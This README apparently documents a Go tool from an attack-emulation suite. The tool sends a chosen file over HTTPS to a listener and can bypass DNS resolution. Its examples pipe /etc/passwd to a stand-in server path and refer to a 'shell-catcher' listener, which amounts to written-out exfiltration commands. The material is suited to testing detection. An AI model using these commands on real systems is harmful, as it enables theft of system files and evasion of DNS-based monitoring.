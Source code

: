 Comms Without DNS
=================
Nearly the same as [`comms_over_https`](../comms_over_https) but can skip doing
DNS resolution by passing the server's IP addres and port via an environment
variable, `ALPT4ATS_REAL_ADDRESS`, by default.

A crude shell-catcher may be found in the
[`letsencryptshellcatcher`](../letsencryptshellcatcher) directory.
Run it with `-https /somepath`, and put the same `/somepath` in the server
URL.

File Descriptor
---------------
The address and file as whitespace-separated words from file descriptor 7, and
override the environment variables.  If only one word is read, it is taken to
be the address.

### Examples
Set the address and file via a heredoc:
```sh
./comms_without_dns 7<<_eof
https://localhost:5555/somepath /etc/passwd
_eof
```

Set just the address via bash's Here String:
```sh
./bin/comms_without_dns 7<<<"https://localhost:5555/somepath"
```

Environment Variables
---------------------
The URL and file may be set with environment variables, overriding
compile-time settings, as follows

Default Variable        | Description
------------------------|------------
`ALPT4ATS_ADDRESS`      | HTTPS Server URL
`ALPT4ATS_FILE`         | File to send on the HTTPS connection
`ALPT4ATS_REAL_ADDRESS` | Optional HTTPS Server IP:Port

The variable names may be changed at compile-time, as below.

Compile-time Config
-------------------
Compile time configuration is possible with the linker's `-X` (as in 
`go build -ldflags '-X main.Foo=bar'`).  The variables are as follows

Variable                                               | Default                        | Description
-------------------------------------------------------|--------------------------------|------------
[`main.Address`](./comms_without_dns.go#L28)           | `https://localhost:4444/shell` | HTTPS Server URL
[`main.AddressEnvVar`](./comms_without_dns.go#L29)     | `ALPT4ATS_ADDRESS`             | Environment variable which sets the HTTPS Server URL
[`main.File`](./comms_without_dns.go#L30)              | `/etc/hosts`                   | File to send on the HTTPS connection
[`main.FileEnvVar`](./comms_without_dns.go#L31)        | `ALPT4ATS_FILE`                | Environment variable which sets the File to send on the HTTPS connection
[`main.RealAddressEnvVar`](./comms_without_dns.go#L32) | `ALPT4ATS_REAL_ADDRESS`        | Environment variable which sets the server's real IP address and port

When building with the [Makefile](../../Makefile) these may be passed in with
the `LINKFLAGS` environment variable, as in
```sh
LINKFLAGS="-X main.Address=https://example.com:8080/notshell" make
```
